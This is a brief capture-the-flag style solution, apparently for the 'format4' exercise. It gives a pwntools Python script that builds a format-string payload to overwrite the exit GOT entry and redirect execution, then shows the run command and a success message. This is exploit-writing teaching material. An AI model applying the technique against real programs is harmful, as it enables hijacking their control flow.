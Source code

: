 **Better method that sends less bytes**
```
from pwn import *

hello_func = p32(0x080484b4)
exit_GOT = p32(0x08049724)


payload = ""
payload += exit_GOT
payload += p32(0x08049724 + 2)
payload += "A" * 8
payload += "%4$33956x"
payload += "%4$n"
payload += "%5$33616x"
payload += "%5$n"
payload = payload + "A" * (512-len(payload))

print(payload)
```
```
python exploit.py | ./format4

"code execution redirected! you win"
```
